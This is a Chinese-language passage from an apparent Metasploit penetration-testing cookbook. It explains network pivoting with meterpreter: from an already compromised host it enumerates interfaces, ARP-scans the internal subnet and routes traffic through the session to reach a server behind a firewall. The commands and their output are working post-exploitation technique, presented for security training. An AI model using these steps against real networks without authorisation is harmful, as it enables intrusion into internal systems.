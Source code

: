 在开始使用这个示例之前，让我们首先详细了解转向。转向是指渗透测试人员使用 compromise 的系统来攻击同一网络上的其他系统的方法。这是一个多层次的攻击，在这个攻击中，我们可以访问甚至那些仅供本地内部使用的网络区域，比如内部网。考虑下面图中显示的情景。

![准备工作](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_06_02.jpg)

攻击者可以 compromise 与互联网连接的网络的外部节点。然后这些节点与防火墙连接。防火墙后面是主服务器。现在，由于攻击者无法访问服务器，他可以使用节点作为访问的媒介。如果攻击者成功地 compromise 了节点，那么它可以进一步渗透网络，以达到服务器。这是涉及转向的典型情况。图中的红线显示了通过 compromise 的节点在攻击者和服务器之间建立的转向路径。在这个示例中，我们将使用我们在上一章中学到的一些 meterpreter 网络命令。

## 如何做...

让我们看看如何使用 meterpreter 实现先前讨论的情景。

在这个示例中，我们的目标节点是运行在 Windows 7 上并连接到网络的机器。服务器运行在 Windows 2003 上。通过使用客户端浏览器漏洞，节点已经被 compromise，并且我们已经建立了一个活动的 meterpreter 连接。让我们从在目标节点上运行 ipconfig 开始，看看它上面有哪些可用的接口。

```
meterpreter > ipconfig
Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address: 10.0.2.15
Netmask : 255.255.255.0
VirtualBox Host-Only Ethernet Adapter
Hardware MAC: 08:00:27:00:8c:6c
IP Address : 192.168.56.1
Netmask : 255.255.255.0 
```

正如你所看到的，目标节点有两个接口。一个是连接到互联网的 192.168.56.1，另一个是内部网络的 IP 接口 10.0.2.15。我们下一个目标将是找出这个本地网络中还有哪些其他系统。为此，我们将使用一个名为`arp_scanner`的 meterpreter 脚本。这个脚本将在内部网络上执行 ARP 扫描，以找出其他可用的系统。

```
meterpreter > run arp_scanner -r 10.0.2.1/24
[*] ARP Scanning 10.0.2.1/24
[*] IP: 10.0.2.7 MAC 8:26:18:41:fb:33
[*] IP: 10.0.2.9 MAC 41:41:41:41:41:41 
```

所以脚本成功地发现了网络上两个可用的 IP 地址。让我们选择第一个 IP 地址并对其进行枢纽转发。

## 工作原理...

为了访问 IP 为 10.0.2.7 的系统（即服务器），我们将不得不通过目标节点 10.0.2.15 路由所有数据包。

为此，我们将使用一个名为`route`的命令。我们在之前的章节中也学习过这个命令。要使用这个命令，我们将把当前的 meterpreter 会话放到后台。

```
meterpreter > background
msf exploit(handler) > route add 10.0.2.15 255.255.255.0 1
[*] Route added
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```
